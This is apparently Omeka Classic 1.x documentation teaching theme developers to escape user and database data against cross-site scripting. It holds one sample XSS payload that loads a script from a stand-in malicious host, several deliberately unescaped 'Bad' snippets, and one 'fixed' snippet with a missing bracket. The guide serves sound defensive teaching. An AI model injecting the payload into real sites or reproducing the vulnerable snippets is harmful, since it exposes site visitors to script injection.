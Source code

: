 ```yaml
---
title: Escaping Data in Omeka Classic 1x
---
```


*This documentation is for Omeka Classic versions 1.0-1.5*

*Note to theme designers*: Omeka themes should be secure out of the box, so theme designers who do not plan on modifying or adding PHP code to the existing themes will not need to worry about this. However, this document details best practices for web development in general, so theme writers who are also web developers may find it useful.

The Gist 
---------------------------------------------------------
Data that comes from the user is untrustworthy. "User data" includes both data retrieved from the database as well as input from any given user request (e.g. from the URL, form submissions, etc.). The way to avoid problems from untrustworthy data is twofold: validating data prior to storing in the database, and escaping data properly before display. Omeka takes care of validating data that will go into the database (though not automatically for plugins -- that is responsibility of plugin writers), but ensuring the security of displayed data is, unfortunately, the responsibility of the theme writer. Failing to do this won't always leave your Omeka site open to attack, but under certain circumstances it will. The only way to prevent problems for certain is to make sure that data is escaped properly before display.

What could possibly go wrong?
---------------------------------------------------------------
Just for example, suppose you have a theme that displays the search query for which results are being displayed, and the code currently looks like this:


``` {.de1}
Search Results for: <?php echo $_GET['search']; ?>
```

How XSS Attacks Work
-------------------------------------------------------------

If someone did a search for: `<script src=“my-evil-site.com/bad.js”></script>`, that search query is stored in `$_GET[‘search’]`, so that bad HTML would be injected directly into the search results page, and the evil javascript would run. Then the attacker could send some 3rd party a link to those search results, and when that third person followed the link, they would be compromised by the bad javascript.

How to Prevent These Attacks 
--------------------------------

Omeka has a set of helper functions that need to be used in situations such as this. The most important of these is `html_escape()`, which basically translates a PHP value into valid HTML by encoding HTML`entities so that `<` becomes &lt;, `>` becomes &gt;, etc. PHP developers will recognize the similarity to PHP's builtin htmlentities() function, which is basically what this is, with the added ability for plugins to filter the output if necessary.

The previous example could be corrected by wrapping the \$\_GET parameter in html\_escape(), like so:

``` {.de1}
Search Results for: <?php echo html_escape($_GET['search'); ?>
```

Why Doesn't Omeka Do This Automatically? 
-----------------------------------------------------------------

There are a few complicated reasons why the current version of Omeka can't escape all data automatically for theme writers, most of which has to do with the fact that there seems to be no one-size-fits-all solution for this type of problem. That said, we're looking into possible solutions for future releases that would make this easier. Users are welcome to contribute suggestions on the dev mailing list.

Caveats 
-------------------------------------------------------

Not everything in a theme needs to be (nor should be) escaped using `html_escape()`. Important counterexamples include helper functions that`generate HTML, e.g. `auto_discovery_link_tag()`, link\_to(), etc. Also, the output of certain functions like item() should not be escaped, as that is taken care of automatically based on whether or not the field was marked as HTML in the admin.

In addition, this may seem obvious, but pretty much any data over which the theme designer has control does not need to be escaped. For example, escaping literal strings, such as the following, is pointless:



``` {.de1}
<?php echo html_escape('cookies & cream'); ?>
```


Instead, it should just be:

``` {.de1}
cookies &amp; cream
```


Useful Examples of When to Escape Data
---------------------------------------------------------------------------

### User Input

Superglobals like `$_REQUEST, $_GET, $_POST, and $_SERVER` shouldalways be escaped before display.

-   Bad:

``` {.de1}
Search terms: <?php echo $_GET['search']; ?>
```

-   Good:


``` {.de1}
Search terms: <?php echo html_escape($_GET['search']); ?>
```

### From Database

-   Bad:

``` {.de1}
Welcome, <?php echo current_user()->first_name; ?>
```
-   Good:
``` {.de1}
Welcome, <?php echo html_escape(current_user()->first_name); ?>
```

### URLs

In HTML, "href" and "src" attributes must always contain a URL that is properly escaped.

-   Bad:
``` {.de1}
<a href="<?php echo uri('items/browse'); ?>">Go to Items</a>
```
-   Good:
``` {.de1}
<a href="<?php echo html_escape(uri('items/browse')); ?>">Go to Items</a>
```

-   Better:

``` {.de1}
<?php echo link_to('items', 'browse', 'Go to Items'); ?>
```

Also, URL query string parameters must be properly encoded with
urlencode() before they are escaped.

-   Bad:
``` {.de1}
<a href="<?php echo uri('items/browse?tags=' . $tag); ?>">
```
-   Good:
``` {.de1}
<a href="<?php echo html_escape(uri('items/browse?tags=' . urlencode($tag))); ?>">
```
-   Better:
``` {.de1}
<a href="<?php echo html_escape(uri('items/browse', array('tags'=>$tag))); ?>">
```

### Javascript and XML

For developers writing javascript and XML, Omeka has 2 functions (since Omeka 1.1) for escaping data: `js_escape()` and `xml_escape()`. These are necessary because the behavior of `html_escape()` is not necessarily desirable (or valid) for translating from PHP to Javascript or XML. Basically, any context for using `html_escape()` in a theme applies also to `js_escape()` or `xml_escape()`.

-   Bad Example in Javascript:
``` {.de1}
new Ajax.Request("<?php echo uri("items/change-type") ?>");
```
-   How it should be done:
``` {.de1}
new Ajax.Request(<?php echo js_escape(uri("items/change-type")) ?>);
```